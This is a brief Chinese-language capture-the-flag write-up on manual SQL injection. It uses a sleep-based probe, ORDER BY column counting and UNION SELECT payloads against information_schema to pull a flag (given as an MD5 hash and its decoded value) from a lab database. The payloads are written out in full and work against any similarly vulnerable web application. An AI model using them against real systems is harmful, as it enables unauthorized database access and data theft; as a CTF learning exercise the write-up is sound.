



## sql手注

* 在url后面输入 ?id=1'and sleep(10) -- oxl(这里是我的注释) 这个是让页面延时十秒钟，如果页面延时就证明你的语句被当作命令执行，而不是字符串了，说明这里一定存在SQL注入点

* 接下来再查询一下字段数' and 1=2 order by 1 -- oxl(这里随便你输入任何数据)发现字段数是3，因为该数据库一共有三个字段，当order by 4 时页面没有了回显，应该是报错被屏蔽了

* 知道了字段数下一步查询库名 ' and 1=2 union select 1,database(),3 -- oxl 发现库名是message

* 随后查询一下这个库里面的表 ' and 1=2 union select 1,table_name,3 from information_schema.tables where table_schema='message' -- oxl 库里有一个flag的表

* 在通过limit函数数发现这个表下一共有三个表，分别是flag、user、username，可以知道flag字段肯定在这个库里面' and 1=2 union select 1,table_name,3 from information_schema.tables where table_schema='message' limit 0,1 -- oxl

* 查看表里的字段' and 1=2 union select 1,column_name,3 from information_schema.columns where table_schema='message' and table_name='flag' -- oxl,发现这个flag表下一共有两个字段分别是flag、id，那我们就继续查看flag表里的flag字段

* 那我们就继续查看flag表里的flag字段' and 1=2 union select 1,flag,3 from flag -- oxl 这里是获取表里你想要的数据

成功拿下flag，不过这个flag是被md5加密后的，需要拿去解密一下
``flag{a1a8887793acfc199182a649e905daab}``

flag里的东西解密后就是chen所以``flag{chen}``